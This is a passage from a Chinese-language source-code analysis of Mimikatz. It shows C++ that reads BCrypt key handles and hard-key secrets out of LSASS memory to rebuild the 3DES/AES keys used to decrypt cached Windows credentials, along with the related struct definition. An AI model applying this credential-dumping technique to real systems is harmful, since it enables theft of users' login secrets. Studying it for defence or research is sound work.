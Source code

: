 ```c++
            if(kull_m_memory_copy(&aLocalMemory, aLsassMemory, sizeof(PVOID)))
            {
                aLocalMemory.address = &hKey;
                if(kull_m_memory_copy(&aLocalMemory, aLsassMemory, sizeof(KIWI_BCRYPT_HANDLE_KEY)) && hKey.tag == 'UUUR')
                {
                    // 将 KIWI_BCRYPT_HANDLE_KEY::key，也就是 KIWI_BCRYPT_KEY81 结构复制到 buffer 指向的内存中
                    aLocalMemory.address = buffer; aLsassMemory->address = hKey.key;
                    if(kull_m_memory_copy(&aLocalMemory, aLsassMemory, taille) && ((PKIWI_BCRYPT_KEY) buffer)->tag == 'MSSK') // same as 8
                    {
                        // buffer 加上 offset 到达 KIWI_BCRYPT_KEY::hardkey 的地址
                        pHardKey = (PKIWI_HARD_KEY) ((PBYTE) buffer + offset);
                        // 将 KIWI_HARD_KEY::data 复制到 aLocalMemory.address 指向的内存中
                        if(aLocalMemory.address = LocalAlloc(LPTR, pHardKey->cbSecret))
                        {
                            aLsassMemory->address = (PBYTE) hKey.key + offset + FIELD_OFFSET(KIWI_HARD_KEY, data);
                            if(kull_m_memory_copy(&aLocalMemory, aLsassMemory, pHardKey->cbSecret))
                            {
                                __try
                                {
                                    // 通过 BCryptGenerateSymmetricKey 函数创建一个密钥对象
                                    status = NT_SUCCESS(BCryptGenerateSymmetricKey(pGenKey->hProvider, &pGenKey->hKey, pGenKey->pKey, pGenKey->cbKey, (PUCHAR) aLocalMemory.address, pHardKey->cbSecret, 0));
                                }
                                __except(GetExceptionCode() == ERROR_DLL_NOT_FOUND){}
                            }
                            LocalFree(aLocalMemory.address);
                        }
                    }
                }
            }
        }
        LocalFree(buffer);
    }
    return status;
}
```

这里以获取 `h3DesKey` 为例，获取 `hAesKey` 的方法相同。首先通过 `kull_m_memory_copy()` 函数获取保存 `h3DesKey` 偏移量的那四个字节的值，并加到 `rip` 指令的地址上得到了 `h3DesKey` 变量的地址，然后再将 `h3DesKey` 变量复制到 `hKey` 指向的内存中。这里需要知道的 `h3DesKey` 变量是一个 `BCRYPT_KEY_HANDLE` 的句柄结构，由于句柄相当于指针的指针，因此该句柄中保存着存储密钥内容的那块内存的指针的指针，指向密钥的指针结构，可以在 Mimikatz 中找到了这个结构：

```c++
typedef struct _KIWI_BCRYPT_HANDLE_KEY {
    ULONG size;
    ULONG tag;  // 'UUUR'
    PVOID hAlgorithm;
    PKIWI_BCRYPT_KEY key;
    PVOID unk0;
} KIWI_BCRYPT_HANDLE_KEY, *PKIWI_BCRYPT_HANDLE_KEY;
```
